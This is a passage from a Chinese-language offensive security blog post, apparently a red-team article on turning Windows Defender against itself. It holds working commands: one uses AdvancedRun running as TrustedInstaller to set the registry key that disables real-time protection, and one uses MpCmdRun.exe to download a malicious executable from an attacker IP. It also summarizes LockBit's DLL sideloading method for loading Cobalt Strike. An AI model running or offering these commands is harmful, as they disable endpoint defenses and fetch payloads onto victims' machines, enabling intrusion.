 或者使用命令行

```
AdvancedRun.exe /EXEFilename "%windir%\system32\cmd.exe" /CommandLine '/c reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows Defender\Real-Time Protection" /v "DisableRealtimeMonitoring" /d 1 /t REG_DWORD /f' /RunAs 8 /Run
```

## 补充2：MpCmdRun.exe利用

### MpCmdRun恶意文件下载

Windows Defender自带的命令执行工具"MpCmdRun.exe"可以用来实现远程下载恶意文件的目的，但是免杀好像还是不太可靠，不过我们可以在cmd中关闭Windows Defender，所以这样一来，一结合就变得有意思多了，不管在使用该思路的过程中还需要权限提升，但是CS因为在后渗透测试中有很好的辅助功能，所以总体来说还是划算的~ PS：经过实验发现在新版本中下载任何文件Windows defender都会报毒并隔离（下图），若尝试关闭实时保护则mpcmdrun不可用。。。不过老版本defender还是可以的。在目标主机上使用Windows Defender自带的MpCmdRun.exe程序下载恶意文件

```
MpCmdRun.exe -DownloadFile -url http://*.*.*.*:81/co.exe -path c:\co.exe
```

![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RViapmrkdL7Q2RlYmEc7AgYicW3zNfkia1k9ribL3C1eTFqWEUqka3L9bzI1S18GGQL9icxgnlr4wTpZgA/640?wx_fmt=png "null")

### MpCmdRun.exe解密和加载Cobalt Strike攻击载荷

这篇文章是7月底发布的，还算比较新（在我10月份写这篇文章的时候）。https://www.bleepingcomputer.com/news/security/lockbit-ransomware-abuses-windows-defender-to-load-cobalt-strike/ 一开始还以为是生成含有恶意载荷的dll文件替为MPClient.dll后就可以执行，结果在自己机器上尝试了一下根本不能上线，仔细看了看（谷歌翻译后）才明白大意是攻击者通过MpCmdRun.exe 加载修改后的MPClient.dll执行c0000015.log进而实现上线Cobalt Strike，当然这就触及到我的知识盲区了，感兴趣的铁子可以继续研究一下（教教我）。

![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RViapmrkdL7Q2RlYmEc7AgYicTbobNIPkXicQkBXhSYeyI2C9kkNgAANm5IUjMtv4xd3u6r9vIFUDhwQ/640?wx_fmt=png "null")

## 参考文章

https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E5%9F%BA%E7%A1%80-Windows-Defender

往期推荐

[敏感信息泄露](http://mp.weixin.qq.com/s?__biz=Mzg2NTA4OTI5NA==&mid=2247500219&idx=1&sn=8da48a9a049bab2f9215ad373868a1a5&chksm=ce5de3daf92a6acc7c2a58329c913062e9c34a9615ce742b761b2775916781abb50159a7d2d7&scene=21#wechat_redirect)

[潮影在线免杀平台上线了](http://mp.weixin.qq.com/s?__biz=Mzg2NTA4OTI5NA==&mid=2247499902&idx=1&sn=59cba8d980b4ecb0deefff99edaabd4d&chksm=ce5de21ff92a6b09a8972a0144557b0099e443aa8e018b17151c816fc7f08f3615ecb22617fc&scene=21#wechat_redirect)

[自动化渗透测试工具开发实践](http://mp.weixin.qq.com/s?__biz=Mzg2NTA4OTI5NA==&mid=2247498466&idx=1&sn=085c15679436dedb06a179ca8d47951a&chksm=ce5dd883f92a5195ef74ac517741f6d3da0da40b5501d72016e52cb70344904bb85b8aef65ba&scene=21#wechat_redirect)

[【红蓝对抗】利用CS进行内网横向](http://mp.weixin.qq.com/s?__biz=Mzg2NTA4OTI5NA==&mid=2247492640&idx=1&sn=43b1991dc5628eab322923083fde8d70&chksm=ce5dc641f92a4f57ffb18e2977644b1f977fcc5e0eccdf10956d3ae4ce70dc95024500631e89&scene=21#wechat_redirect)

[一个Go版(更强大)的TideFinger](http://mp.weixin.qq.com/s?__biz=Mzg2NTA4OTI5NA==&mid=2247498344&idx=1&sn=3679330363ff6890166b09f6a502f769&chksm=ce5dd809f92a511f6066fcbb12fb5c1dc8c2642e4e2690dad64d76cc6f9247eae356d16f5810&scene=21#wechat_redirect)

[SRC资产导航监测平台Tsrc上线了](http://mp.weixin.qq.com/s?__biz=Mzg2NTA4OTI5NA==&mid=2247499823&idx=1&sn=065ffeae6bd02fff922cfb12c5a0f4df&chksm=ce5de24ef92a6b58f709260b691e6b36e4a53aac00d3022946302b8e638696ed55c70e13e16f&scene=21#wechat_redirect)

[新潮信息-Tide安全团队2022年度总结](http://mp.weixi...